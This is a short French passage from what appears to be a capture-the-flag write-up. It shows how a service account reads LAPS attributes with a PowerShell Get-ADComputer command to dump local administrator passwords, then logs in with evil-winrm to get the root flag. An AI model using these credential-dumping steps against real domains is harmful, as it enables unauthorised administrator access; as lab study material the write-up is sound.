 Par chance, svc_deploy peut lire les attributs concernant LAPS.
On regarde une documentation de LAPS afin de connaitre les attributs concernés : https://www.it-connect.fr/chapitres/comment-afficher-les-mots-de-passe-laps/
Avec la commande suivante, on les affiche :
```powershell
Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime
```
### Obtention du flag root
On se connecte de nouveau avec evil-winrm avec le mot de passe obtenu et on récupère le flag root.

Si on ne sait pas où est le flag root.txt :
```powershell
get-childitem root.txt -path C:\ -recurse
```
{{< /tab >}}
{{< /tabs >}}
